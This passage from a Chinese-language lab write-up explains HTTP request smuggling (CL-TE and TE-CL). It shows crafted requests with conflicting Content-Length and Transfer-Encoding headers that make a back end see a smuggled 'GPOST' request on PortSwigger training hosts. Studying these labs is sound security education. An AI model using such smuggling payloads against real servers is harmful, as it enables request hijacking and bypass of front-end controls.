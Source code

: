 以上 6 个字节为请求 A 的 body，会将这个请求 A 当作一个完整的请求转发到后端，而当 Backend 服务器优先以 TE 处理时，会认为

```bash
POST / HTTP/1.1
Host: ac8f1fae1e6cd77b8073213100b500d6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0
```

这个是一个完整的，单独的请求，而

```bash
G
```

这个他会视为一个不完整的请求，所以就造成了 1/2 B 请求的产生，于是会在 Backend 服务器缓冲区处等待其他数据的到来以使得将 1/2 B 拼接成一个完整的请求，当我们发送第二遍请求的时候，POST 会拼接到 G 后面，所以 HTTP Method 会变成 GPOST 方法，也就是我们看到的得到的回显，无法识别的 HTTP Method GPOST。

### TE-CL

接下来我们来看 TE-CL 的情况，同样我们借助 LAB 实验来加深理解：[Lab: HTTP request smuggling, basic TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

> This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

按照题目提示，我们要达到的仍然是让后端收到 GPOST 请求，而且场景也明确告诉我们是一种 TE-CL 的场景。

```bash
POST / HTTP/1.1
Host: acde1ffc1f047f9f8007186200ff00fe.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1
0
```

这里需要注意的是最后需要加两个 CRLF 构造 chunk data，也就是

```bash
0\r\n
\r\n
```

根据题目的提示要求，这里我们发送两次以上 HTTP 请求包即可，我们可以收到如下图所示的响应。
